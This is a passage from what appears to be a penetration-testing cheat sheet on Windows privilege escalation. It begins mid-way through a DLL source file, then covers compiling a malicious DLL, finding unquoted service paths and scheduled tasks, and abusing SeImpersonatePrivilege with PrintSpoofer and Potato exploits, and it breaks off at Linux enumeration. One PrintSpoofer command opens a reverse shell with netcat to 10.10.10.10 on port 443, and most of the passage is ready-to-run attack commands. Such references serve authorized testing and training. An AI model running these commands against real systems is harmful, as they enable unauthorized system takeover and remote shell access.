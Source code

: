 	        break;
	        case DLL_PROCESS_DETACH: // A process unloads the DLL.
	        break;
	    }
	    return TRUE;
	}

`kali@kali:~$ x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll`

<a name="unquoted-service-paths"></a>
## Unquoted Service Paths

`PS C:\> Get-CimInstance -ClassName win32_service | Select Name,State,PathName`
`PS C:\> wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """`
`PS C:\> . .\PowerUp.ps1`
`PS C:\> Get-UnquotedService`

<a name="scheduled-tasks"></a>
## Scheduled Tasks
`C:\> schtasks /query /fo LIST /v`

<a name="using-exploits"></a>
## Using exploits
`C:\> whoami /priv`

	PRIVILEGES INFORMATION
	----------------------
	
	Privilege Name                Description                               State   
	============================= ========================================= ========
	SeImpersonatePrivilege        Impersonate a client after authentication Enabled


`PS C:\> .\PrintSpoofer64.exe -i -c powershell.exe`
`PS C:\> PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.10.10 443 -e cmd"`

> RottenPotato, SweetPotato or JuicyPotato

> if you see PrintSpoofer failing you need to check if the spooler service is running
 
`PS C:\> Get-Service -Name Spooler`

> Robocopy Backup mode is a way to read and write files ignoring any permissions problems. It uses the SeBackupPrivilege

<a name="linux-privilege-escalation"></a>
# Linux Privilege Escalation
<a name="manual-enumeration"></a>
## Manual Enumeration
`$ id`

`$ whoami`
